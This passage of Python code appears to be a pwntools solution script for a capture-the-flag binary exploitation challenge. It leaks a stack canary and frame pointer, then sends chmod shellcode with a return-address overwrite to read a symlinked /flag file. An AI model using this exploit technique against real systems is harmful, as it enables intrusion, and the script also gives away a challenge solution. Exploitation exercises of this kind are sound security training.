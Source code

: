 ```python
        target.send(payload)
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")


def leak_data(target):
    try:
        target.sendlineafter(b"Payload size: ", trigger_length)
        send_payload(target, backdoor_trigger)
        response = target.recvuntil(backdoor)
        log.debug(response.decode("utf-8", errors="ignore"))

        canary = b"\x00" + target.recv(0x7)
        rbp = target.recv(0x6)
        log.success(f"Canary: {to_hex_bytes(canary)}\nRBP: {to_hex_bytes(rbp)}")

        return [canary, rbp]
    except Exception as e:
        log.exception(f"An error occurred while leaking canary: {e}")


def construct_payload(target):
    canary, rbp = leak_data(target)
    rbp = int.from_bytes(rbp, "little")

    ret_addr = rbp - fixed_offset

    shellcode = asm(shellcraft.chmod("f", 0o4))
    shellcode_length = len(shellcode)
    shellcode += b"".ljust(padding_to_v13_size - shellcode_length, b"A")
    shellcode += v13
    shellcode += padding_to_canary
    shellcode += canary
    shellcode += padding_to_ret
    shellcode += p64(ret_addr)

    return shellcode


def attack(target, payload):
    try:
        os.system("ln -s /flag f")

        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

        target.recvuntil(b"Send your payload")
        send_payload(target, payload)
        response = target.recvall(timeout=5)
        log.debug(response.decode("utf-8", errors="ignore"))

        try:
            with open("./f", "r") as file:
                content = file.read()

                log.success(content)
                return True
        except FileNotFoundError:
            log.exception("The file './f' does not exist.")
        except PermissionError:
            log.failure("Permission denied to read './f'.")
        except Exception as e:
            log.exception(f"An error occurred while performing attack: {e}")
```